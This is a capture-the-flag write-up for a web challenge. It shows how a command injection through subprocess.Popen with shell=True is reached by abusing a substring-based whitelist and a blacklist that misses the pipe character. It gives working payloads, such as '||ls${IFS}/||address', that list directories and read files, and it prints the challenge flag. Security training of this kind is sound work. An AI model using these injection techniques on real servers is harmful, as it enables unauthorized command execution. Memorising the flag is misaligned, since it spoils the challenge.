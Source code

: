 # Network Navigators Oddyssey Writeup
## The Weaknesses
### Command Injection:
- User input is being passed directly to `subprocess.Popen()` function with `shell=True`, which allows it to be interpreted by the system shell.
### Whitelist Bypass:
- Enter a random value as an option and you'll get the following error:
```
Sorry, but only these options are availabe: ['address', 'link', 'maddress', 'neighbor', 'netconf', 'ntable', 'route', 'rule', 'tcpmetrics', 'token']
```

- If you look closely at the code, you'll spot that the code doesn't check if the option is completely equal to one of the options in the whitelist, but only checks whether it's present there or not, so an attacker could simply enter `testaddress` , and he won't get and error, because `address` is whitelisted.
### Blacklist bypass:
Implementing a blacklist to prevent command injection might not be the most effective approach. In this case, the developer forgot the pipe symbol `|` which leaves the attacker with the ability to execute system commands on the server using something like `||id||address` .
## Reading the flag
- Now that we have RCE, we can try something like `||ls${IFS}/||address` to locate the flag ( `${IFS}` is used to bypass blacklisted whitespaces), you'll get something like this in the output : 
```
app
bin
dev
etc
flagfbbed20a24.txt
home
.
.
.
```
Finally, you can read it using `||grep${IFS}"shellmates"${IFS}/flag*||address` (PS : you may find another solution to do it)

## Flag
`shellmates{S1l3nc3d_S3rv3r5___Ech0_Just1c3}`
